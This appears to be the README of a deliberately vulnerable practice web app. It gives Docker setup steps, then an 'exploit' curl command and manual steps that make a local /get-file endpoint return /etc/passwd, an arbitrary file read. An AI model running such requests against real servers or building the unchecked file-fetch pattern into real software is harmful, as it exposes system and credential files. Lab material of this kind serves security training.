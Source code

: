 ## Setup 
1. git clone https://github.com/wbowm15/ubiquitous-eureka.git
2. cd ubiquitous-eureka
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
```
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'filename=%2Fetc%2Fpasswd'
```

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
